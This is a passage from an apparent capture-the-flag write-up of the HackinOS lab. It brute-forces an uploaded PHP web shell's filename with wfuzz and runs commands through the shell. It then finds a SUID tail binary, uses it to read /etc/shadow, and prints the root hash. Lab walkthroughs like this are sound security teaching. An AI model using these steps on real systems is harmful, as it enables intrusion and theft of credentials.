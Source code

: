 Since the random number is only from 1 to 100, it can be
easily brute-forced. What needs to be done is to create a list of the possible
MD5 hashes then use that list in brute-forcing to figure out the correct hash.

A script was then coded that will output the said list of MD5 hashes.

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_md5_hash_bruteforce-1024x186.png){: .mx-auto.d-block :} 

What the script does is that it will get all the possible MD5 hashes of cmd.php (which is the filename) combined with numbers from 1 to 100. A sample output of it can be seen below.

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_md5_hashes.png){: .mx-auto.d-block :} 

**wfuzz**, a tool designed to brute-force web applications was then used to try to find the correct filename of the uploaded file using the list as its payload. 
~~~
wfuzz -w test.txt --hc 404 http://localhost:8000/uploads/FUZZ.php
~~~

This resulted in finding the correct filename for the file that was uploaded.

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_correct_filename.png){: .mx-auto.d-block :} 

Accessing the uploaded file and testing it, it can be verified that there is now remote code execution on the server.
~~~
http://localhost:8000/uploads/746f07f7c763118f48fffd74dcabe9ed.php?cmd=cat /etc/passwd
~~~

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_rce-1024x150.png){: .mx-auto.d-block :} 

This was then used to gain a remote shell on the server as www-data user.

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_www-data_shell-1024x655.png){: .mx-auto.d-block :} 

Searching for **suid** files on the server, resulted on finding that **tail** has suid permission. This means that we can use the command to read all files including root-only accessible files.
~~~
find / -uid 0 -perm -4000 -type f 2&gt;/dev/null
~~~

![](https://ethicalhackers.club/wp-content/uploads/2019/03/hackinos_suid.png){: .mx-auto.d-block :} 

### Post Exploitation

Since, the tail is a command used to display the tail end of a text file or piped data. It can be also used to display the entire contents of a file by using its -c or --bytes parameter in combination with large NUM bytes number.

The said information was then used to read the contents of /etc/shadow file which contains the root password in encrypted (more like a hashed value) format.
~~~
tail -c1G /etc/shadow
~~~

This resulted on getting the shadow hash of the root user.
~~~
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
~~~
